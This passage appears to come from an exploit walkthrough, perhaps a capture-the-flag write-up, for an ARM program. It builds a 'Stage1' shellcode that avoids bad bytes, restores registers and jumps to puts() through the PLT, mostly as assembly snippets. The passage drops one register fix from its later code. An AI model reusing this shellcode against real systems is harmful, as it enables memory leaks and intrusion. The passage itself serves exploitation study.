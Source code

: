 ```
cpsr           0x10                16


```

We can use R10 to do some simple math and load correct values into R4, R7 and R11. The following snippet will "fix" the registers (all the while avoiding the bad bytes):

```
sub r4, r10, #2000         ; r4 = 0x16170 - 2000 = 0x159a0 
sub r11, r4, #108          ; r11 = 0x159a0 - 108 = 0x15934 => stdin
sub r7, r4, #112           ; r7 = 0x159a0 - 112 = 0x15930 => __ctype_b
sub r4, r4, #116           ; r4 = 0x159a0 - 116 = 0x1592c => stdout


```

We will call it "fix_regs":

```
fix_regs = asm("""
sub r4,r10, #2000; 
sub r11, r4, #108; 
sub r7, r4, #112;
""")


```

What is left to do, is to jump to the PLT address of the puts() function, let's call it"jmp_puts". We combine all of the above as a **Stage1** shellcode:

```
fix_regs = asm("""
sub r4,r10, #2000; 
sub r11, r4, #108; 
sub r7, r4, #112;
""")
load_puts_got = asm("""
mov r6, #0x1; 
mov r6, r6, lsl #8; 
add r6, r6, #0x58; 
mov r6, r6, lsl #8; 
add r6, r6, #0x9c; 
mov r0, r6, ror r8
""")
jmp_puts = asm("""
mov r6, #0xA3; 
mov r6, r6, lsl #8; 
add r6, r6, #0x48; 
mov r1, r8; 
mov pc, r6;
""")


```
